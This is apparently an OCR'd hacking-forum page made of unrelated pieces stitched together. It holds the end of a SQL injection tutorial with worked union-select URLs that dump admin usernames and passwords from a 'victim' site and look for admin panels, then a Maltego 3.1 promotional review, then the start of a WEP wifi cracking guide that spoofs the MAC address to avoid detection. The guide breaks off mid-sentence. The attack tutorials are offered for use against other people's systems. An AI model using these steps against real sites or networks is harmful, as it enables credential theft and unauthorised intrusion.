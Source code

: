 Finding the Column Name   Now replace the "group_concat(table_name) with the "group_concat(column_name)"   Replace the "from information_schema.tables where table_schema=database()--" with "FROM information_schema.columns WHERE table_name=mysqlchar--   Now listen carefully ,we have to find convert the table name to MySql CHAR() string and replace mysqlchar with that .   Find MysqlChar() for Tablename:  First of all install the HackBar addon: https://addons.mozilla.org/en-US/firefox/addon/3899/  Now select sql->Mysql->MysqlChar()   This will open the small window ,enter the table name which you found. i am going to use the admin table name.   click ok  Now you can see the CHAR(numbers separated with commans) in the Hack toolbar.     Copy and paste the code at the end of the url instead of the "mysqlchar"  For eg:  http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(column_name),4,5,6,7 from information_schema.columns where table_name=CHAR(97, 100, 109, 105, 110)--  Now it will show the list of columns. like admin,password,admin_id,admin_name,admin_password,active,id,admin_name,admin_pas ? s,admin_id,admin_name,admin_password,ID_admin,admin_username,username,password..etc..   Now replace the replace group_concat(column_name) with group_concat( columnname,0x3a,anothercolumnname).  Columnname should be replaced from the listed column name.  anothercolumnname should be replace from the listed column name.   Now replace the " from information_schema.columns where table_name=CHAR(97, 100, 109, 105, 110)" with the "from table_name"   For eg:   http://www.victimsite.com/index.php?id=-2  and 1=2 union select 1,2,group_concat(admin_id,0x3a,admin_password),4,5,6,7 from admin--  Sometime it will show the column is not found. Then try another column names  Now it will Username and passwords.   Enjoy..!!cheers..!!   If the website has members then jock-bot for you. You will have the list of usernames and password.  Some time you may have the email ids also,enjoy you got the Dock which can produce the golden eggs.   Step 8: Finding the Admin Panel:  Just try with url like:  http://www.victimsite.com/admin.php http://www.victimsite.com/admin/ http://www.victimsite.com/admin.html http://www.victimsite.com:2082/ etc. If you have luck ,you will find the admin page using above urls. or try this list . Here is the list of admin urls:  http://www.ziddu.com/download/13163866/A...t.zip.html    Maltego – Open source intelligence mining and visualization tool   Although we do not make it a habit to announce third party releases, in Maltego’s case, we happily make an exception. Maltego 3.1 is the new flagship product from the guys at Paterva and offers a range of fantastic new features and enhancements to the already phenomenal product. If you haven’t tried Maltego, you don’t know what you are missing. Some of the new features include: Completely new graph organisational abilities:  You now have the ability to organise the graph in terms of alignment as well as setting the layout for specific segments of graph as well as the entire graph:  New views, including Bubble View which allows users to sort information on their graph in terms of relevance by either incoming links (how many different bits of information point into a node), outgoing links (how many different links point out from a node) or both, as seen below:  Additionally with the layouts there is also the new Interactive Organic view which improves the speed of graph rendering dramatically by only redrawing relevant parts of the graph that are updated. There is also the ability to lock entities in place in a graph to allow for a more human structured format. Within the entities of the graph you can also merge entities together, add notes, add attachments (either from the web or local) as well as the previous features of adding custom entity types and changing the link properties:  Lastly the investigate tab also offers users the ability to now select all entities on a graph based on their bookmark, the type of entity it is as well as the previous searching capabilities:  Once the Parerva development team get their rest, we should be seeing a Maltego 3.1 CE edition surface…we will keep y’all updated once it does. Head down to the Paterva website now, and see the awesomeness of Maltego!     Hacking WEP wifi passwords Basic Entry into a WEP Encrypted Network   This Tutorial explains EVERYTHING in detail So, it is quite long. Enjoy.   1. Getting the right tools This Tutorial is in Bt3 But Download The Latest Release Bt4.   Download Backtrack 4. It can be found here:   http://www.backtrack-linux.org/downloads/    I downloaded the Dvd iso and burned it to a Dvd. Insert your BT4 Dvd/usb drive and reboot your computer into BT4. I always load into the 3rd boot option from the boot menu. (VESA/KDE) You only have a few seconds before it auto-boots into the 1st option so be ready. The 1st option boots too slowly or not at all so always boot from the 2nd or 3rd. Experiment to see what works best for you.   2. Preparing the slave network for attack   Once in BT4, click the tiny black box in the lower left corner to load up a "Konsole" window. Now we must prep your wireless card. Type:   airmon-ng   You will see the name of your wireless card. (mine is named "ath0") From here on out, replace "ath0" with the name of your card. Now type:   airmon-ng stop ath0   then type:   ifconfig wifi0 down   then:   macchanger --mac 00:11:22:33:44:55 wifi0   then:   airmon-ng start wifi0   What these steps did was to spoof (fake) your mac address so that JUST IN CASE your computeris discovered by someone as you are breaking in, they will not see your REAL mac address. Moving on... Now it's time to discover some networks to break into.   Type:   airodump-ng ath0   Now you will see a list of wireless networks start to populate. Some will have a better signal than others and it is a good idea to